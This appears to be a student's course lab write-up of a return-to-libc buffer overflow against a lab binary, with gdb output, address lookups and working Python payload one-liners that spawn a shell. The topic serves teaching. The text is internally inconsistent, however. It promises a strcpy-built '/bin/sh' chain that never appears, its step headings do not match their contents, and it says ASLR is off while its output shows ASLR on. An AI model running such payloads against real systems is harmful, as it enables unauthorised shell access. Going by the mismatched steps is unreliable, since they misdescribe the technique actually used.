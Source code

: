 # Lab5_2 - Buffer overflow attack(turn on ASLR, turn on NX)

## Overview
* Previous lab, we use '/bin/sh' string in a environment in linux system. 
* This time, we're going to make '/bin/sh' string into a memory using strcpy and jump to the text!!!
* I think this is really cool and I truly admire who though these kind of things.

## PAYLOAD
+ Payload = PADDING + build-string-payload + &system() + &exit_path + &cmd_string
+ Note that, this time, we're building our own string!

## Before get started
+ Make sure that the ASLR is turned off.
```
[02/23/22]seed@VM:Byeongchan$ cat /proc/sys/kernel/randomize_va_space 
2
[02/23/22]seed@VM:Byeongchan$

```
+ Make sure not using stack executable when compiling c file
```
gcc -g -static -fno-stack-protector ans_check7.c -o ans_check7_static
```

## Steps
1,2,3,4 - Have done on previous lab
5. Find out the address of the strcpy & pop-pop-ret function
6. Choose an address for our string destination
7. Find out where hexacode of strings are.(We're using them to build our own command)
8. Build the command text we're using
9. Make the payload and execute

### Step5 - Find out the address of the strcpy & pop-pop-ret function
+ I found the 54 bytes are needed for the padding using exit function
+ If you're not sure what it does, look back previous practice
```
[02/23/22]seed@VM:Byeongchan$ ./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xcf\xf0\xff\xbf'")
```


### Step6 - Choose an address for our string destination
+ Address of system() : 0xb7da4da0
+ I tried to find the system in the program, but it ended with ‘00’ so I tried to find another one using gdb.
```
[02/23/22]seed@VM:Byeongchan$ objdump -D ans_check7 | grep system
08048420 <system@plt>:
 8048639:	e8 e2 fd ff ff       	call   8048420 <system@plt>
[02/23/22]seed@VM:Byeongchan$
```
+ This time, I used gdb method.
```
[02/23/22]seed@VM:Byeongchan$ gdb -q ans_check7
Reading symbols from ans_check7...done.
gdb-peda$ run
Starting program: /home/seed/lab5/ans_check7 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
Usage: /home/seed/lab5/ans_check7 <answer>
[Inferior 1 (process 3129) exited normally]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7da4da0 <__libc_system>
gdb-peda$
```

### Step7 - Find out where hexacode of strings are.(We're using them to build our own command)
+ Address of exit() : 0xb7d989d0
+ This time, I just using gdb method very first.
```
[02/23/22]seed@VM:Byeongchan$ gdb -q ans_check7
Reading symbols from ans_check7...done.
gdb-peda$ run
Starting program: /home/seed/lab5/ans_check7 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
Usage: /home/seed/lab5/ans_check7 <answer>
[Inferior 1 (process 3147) exited normally]
Warning: not running or target is remote
gdb-peda$ p exit
$1 = {<text variable, no debug info>} 0xb7d989d0 <__GI_exit>
```

### Step8 - Build the command text we're using
+ The address of cmd_string: 0xbffff0d3
+ Repeatable note is here
```
[02/23/22]seed@VM:Byeongchan$ gcc find_var.c -o find_var
[02/23/22]seed@VM:Byeongchan$ find_var SHELL
0xbffff0d3
[02/23/22]seed@VM:Byeongchan$ echo $SHELL
/bin/bash
[02/23/22]seed@VM:Byeongchan$
```

### Step9 - Make the payload and execute
+ The payload I made is shown below
+ &system:  0xb7da4da0 <__libc_system>
+ &exit_path: b7d989d0 <__GI_exit>
+ &cmd_string: 0xbffff0d3, cmd_string address
```
$(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xd3\xf0\xff\xbf'")
./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xd3\xf0\xff\xbf'")
```
+ However, there is one problem executing the payload with the program
+ The payload I made above failed with ‘/bash’ not found error. And I knew the meaning of it, because find_var program returned the address of ‘SHELL’ text a little bit different. So, I needed to make adjustment a bit. 
+ First, I tried 3 less bytes and I also failed with ‘bin/bash’ not found. 
+ Second, I tried 4 less bytes and I got a new shell.
+ Below is my successful execution command.
```
[02/23/22]seed@VM:Byeongchan$ ./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xcf\xf0\xff\xbf'")
```
![lab5_1](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/lab5_1.png)


